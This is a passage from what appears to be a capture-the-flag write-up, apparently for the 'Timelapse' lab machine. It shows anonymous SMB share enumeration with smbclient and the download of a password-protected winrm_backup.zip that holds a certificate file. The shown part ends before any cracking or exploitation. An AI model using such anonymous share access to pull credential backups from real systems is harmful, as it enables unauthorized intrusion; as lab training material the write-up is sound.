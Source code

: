 # Exploitation

There is a ZIP file in the ‘Dev’ directory.

```bash
smbclient -N //10.129.227.113/Shares -c "ls"     
  Dev                                 D        0  Mon Oct 25 20:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 16:48:42 2021

smbclient -N //10.129.227.113/Shares -c "ls Dev/"
  winrm_backup.zip                    A     2611  Mon Oct 25 16:46:42 2021
```

Downloaded it and received an error during decompression. We don’t have the password.

```bash
smbclient -N //10.129.227.113/Shares -c "cd Dev; get winrm_backup.zip"
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (9.5 KiloBytes/sec) (average 9.5 KiloBytes/sec)

7z e winrm_backup.zip
Extracting archive: winrm_backup.zip
--    
Enter password (will not be echoed):
ERROR: Wrong password : legacyy_dev_auth.pfx
```

<img src="/assets/img/timelapse/Untitled 1.png" alt="Untitled 1.png" style="width:800px;">
